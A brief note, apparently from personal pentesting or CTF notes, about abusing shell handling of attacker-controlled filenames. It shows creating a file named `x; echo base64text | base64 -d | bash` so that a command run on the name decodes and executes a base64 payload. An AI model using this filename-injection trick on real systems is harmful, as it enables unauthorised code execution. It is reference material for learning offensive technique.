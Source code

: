 # wildcard stuff

when doing `rm` on a filename which we can control \(the file name\)  
Idea: filename: `x; echo base64text | base64 -d | bash`

create a file named `x`, and now do `mv x "x; echo base64text | base64 -d | bash"`


